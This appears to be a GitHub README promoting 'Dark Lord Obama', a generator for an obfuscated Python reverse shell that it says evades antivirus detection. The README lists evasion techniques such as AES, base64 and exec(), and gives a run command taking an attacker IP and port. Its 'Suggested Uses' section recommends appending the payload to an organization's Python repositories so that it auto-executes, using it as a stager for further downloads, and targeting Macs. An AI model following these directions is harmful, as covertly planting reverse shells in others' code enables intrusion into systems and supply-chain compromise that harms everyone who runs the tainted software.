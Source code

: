 ![](https://xringarchery.files.wordpress.com/2019/07/obama-sith-lord.jpg)

# Dark Lord Obama - Undetectable Pythonic Payload Generator

Chang Tan Lister
Lister Unlimited Cybersecurity Solutions, LLC.
changtan@listerunlimited.com

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload1.png)

DLO generates a Pythonic reverse shell that as of July 29th, 2019, is undetectable on VirusTotal. It combines multiple won't-to-be-disclosed techniques (undiscloseable in detail) including but not limited to:

1. "Command Segmentation"
2. "AES Encryption" with a 32-bit key and a 16-bit initialization vector
3. Base64 Encoding - It was a necessity
4. Inline Python exec() functions, C asm() functions (will be added soon), Java/Jython, Cython, Ctypes

# Dark Lord Obama Official Release Demo

*Please click this link for a demostration video of how to use*

<a href=https://encryptedarchives2.s3-us-west-1.amazonaws.com/darklordobamarelease.mp4>Demo Video</a>

# Suggested Uses

Currently you can, after you gain a foothold in organization

1. Run the payload standalone.
2. Replace the proof-of-concept code with a Metasploit python payload
3. Taint/corrupt Python repositories: Locate the Python code repositories of a organization during a pentest and then copy-paste the entire code and append it to the bottom of the python module, guarantee auto-execution of the reverse shell when the code runs
4. Use the payload as a stager to download additional payloads
5. Use the payload against MacOS (MacBooks, iMacs, etc). They natively run Python 2.7.1

Run it as ```python darklordobama.py <attacker IP> <attacker listening port>```

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload2.png)

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload5.png)

